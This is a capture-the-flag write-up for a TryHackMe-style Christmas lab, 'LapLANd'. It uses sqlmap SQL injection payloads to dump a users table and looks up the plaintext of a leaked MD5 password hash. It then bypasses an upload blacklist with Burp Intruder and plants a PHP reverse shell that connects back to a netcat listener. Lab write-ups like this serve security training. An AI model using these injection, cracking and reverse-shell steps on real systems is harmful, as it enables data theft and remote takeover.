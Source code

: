 # [Day 23] LapLANd (SQL Injection)

Santa’s been inundated with Facebook messages containing Christmas wishlists, so Elf Jr. has taken an online course in developing a North Pole-exclusive social network, LapLANd! Unfortunately, he had to cut a few corners on security to complete the site in time for Christmas and now there are rumours spreading through the workshop about Santa! Can you gain access to LapLANd and find out the truth once and for all?

This machine may take up to 5 minutes to boot and configure.

Supporting material available [here](https://docs.google.com/document/d/15XH_T1o6FLvnV19_JnXdlG2A8lj2QtepXMtVQ32QXk0/edit?usp=sharing).


## #1 - Which field is SQL injectable? Use the input name used in the HTML code.

*Hint: SQLMap will highlight which field is vulnerable, if you decide to use it.*

~~~
$ sqlmap -u http://10.10.182.6/register.php --forms

...[SNIP]...

[16:13:46] [INFO] POST parameter 'log_email' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'log_email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 81 HTTP(s) requests:
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=VSns' AND (SELECT 6301 FROM (SELECT(SLEEP(5)))oCVA) AND 'flbW'='flbW&log_password=&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=VSns' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71626b7a71,0x7347484c634b4e6b486c744a5268767867634c5a774d704c6242534d476373626d4464766b614463,0x71716b7171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=&login_button=Login
---
do you want to exploit this SQL injection? [Y/n] 
[16:14:00] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[16:14:00] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/unknown/.sqlmap/output/results-05042020_0411pm.csv'

~~~


## #2 - What is Santa Claus' email address?

*Hint: If your injection is going very slowly, consider enumerating only the information you need instead of trying to dump the whole database.*

Create an account and log in. Capture the log in request with BurpSuite and save the request as `req.txt` (Action > Save item)

~~~
$ sqlmap -r req.txt --current-db

...[SNIP]...

[18:02:59] [INFO] retrieved: social
current database: 'social'
~~~

We have now retrieved the database name: `social`.

Now, let's try to get the list of tables.

~~~
$ sqlmap -r req.txt -D social --tables

...[SNIP]...

Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
~~~

Let's get the columns of the table `users`:

~~~
$ sqlmap -r req.txt -D social -T users --columns

...[SNIP]...

Database: social
Table: users
[12 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| id           | int(11)      |
| password     | varchar(255) |
| email        | varchar(100) |
| first_name   | varchar(25)  |
| friend_array | text         |
| last_name    | varchar(25)  |
| num_likes    | int(11)      |
| num_posts    | int(11)      |
| profile_pic  | varchar(255) |
| signup_date  | date         |
| user_closed  | varchar(3)   |
| username     | varchar(100) |
+--------------+--------------+
~~~

Now, let's execute a SQL query to dump Santa's information.

~~~
$ sqlmap -r req.txt -D social -T users -C id,password,email,username --sql-query "select id,password,email,username from users where username like '%santa%'"

...[SNIP]...

[18:29:26] [INFO] retrieved: 1
[18:29:27] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28
[18:29:47] [INFO] retrieved: bigman@shefesh.com
[18:29:55] [INFO] retrieved: santa_claus
select id,password,email,username from users where username like '%santa%' [1]:
[*] 1, f1267830a78c0b59acc06b05694b2e28, bigman@shefesh.com, santa_claus
~~~

Santa's email is `bigman@shefesh.com`.


## #3 - What is Santa Claus' plaintext password?

*Hint: It's in rockyou.txt - also try online sites such as HashKiller or Crackstation*

We have gathered Santa's password has in the previous question: `f1267830a78c0b59acc06b05694b2e28`. Googling for this has leads to http://md5this.com/list.php?page=553&key=1&author=ToXiC&country=Cyprus&city=Nicosia:

* Hash: f1267830a78c0b59acc06b05694b2e28
* Plain: saltnpepper


## #4 - Santa has a secret! Which station is he meeting Mrs Mistletoe in?

*Hint: Look at the private messages between users, either through the database or logging in as Santa!*

Now that we have Santa's credentials (email=`bigman@shefesh.com`, password=`saltnpepper`), let's connect as Santa.

Go to Sant'as private message page (http://10.10.245.53/messages.php?u=mommy_mistletoe) to answer the question. Here is the conversation:

~~~
You and Mommy Mistletoe

XSanta, I think my son Michael saw us kissing underneath the misteltoe last night! Meet me under the clock in Waterloo station at Midnight.

XMrs Mistletoe, you're certainly on the naughty list this year! See you there, Kris x
~~~

Answer: `Waterloo`.

## #5 - Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

*Hint: If you're getting an error about a file format being blacklisted, try looking up alternative file extensions that will still execute.*

Once logged in, let's go to the `home` page (http://10.10.95.45/index.php). From here, we can post a new comment and upload an attachment.

Let's download a PHP reverse shell (http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz). Untar the archive and modify the `php-reverse-shell.php` script:

```php
$ip = '10.9.**.**';  // CHANGE THIS
$port = 9999;        // CHANGE THIS
```

Fire up netcat. When the reverse shell will be uploaded, we should have a shell here.
~~~
$ nc -nlvp 9999
~~~

Then try to upload the reverse shell. Too bad, PHP files are not accepted. Let's use Burp Suite to see if other extensions may be accepted.

Go to Burp Suite > Proxy > HTTP History and right click on the POST request that corresponds to the upload attempt (if Burp was not running, do the attempt again with the `*.php` extension). Send this request to the Intruder module.

!["burp proxy history"](files/burp-proxy-history.png)

Now, in the `Positions` tab, make sure you select `Sniper` from the `Attack type` dropdown, click on the `Clear §` button, highlight the extension from the filename and click on `Add §`. This will tell the Intruder what extensions we will test.

!["burp intruder positions"](files/burp-intruder-positions.png)

Now, go to the `Payloads` tab, and in the `Payload Options` section, add some extensions to the list (`php`, `php4`, `php5`, `phtml`, ...). When done, click on the `Start Attack` button.

!["burp intruder payloads"](burp-intruder-payloads.png)

Once the attack is complete, you are presented with the following results:

!["burp intruder results"](burp-intruder-results.png)

Notice that you can assess the allowed extensions based on the size of the response. Now, we know that only the `*.php` extension was forbidden. Let's rename our reverse shell script:

~~~
$ mv php-reverse-shell.php php-reverse-shell.php4
~~~

Upload the script and check your netcat listener. You have a shell:

~~~
$ nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.95.45 45642 received!
Linux server 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:11:20 up 18 min,  0 users,  load average: 0.02, 0.14, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /home/user/flag.txt

...[SNIP]...

THM{SHELLS_IN_MY_EGGNOG}
~~~

Answer: `THM{SHELLS_IN_MY_EGGNOG}`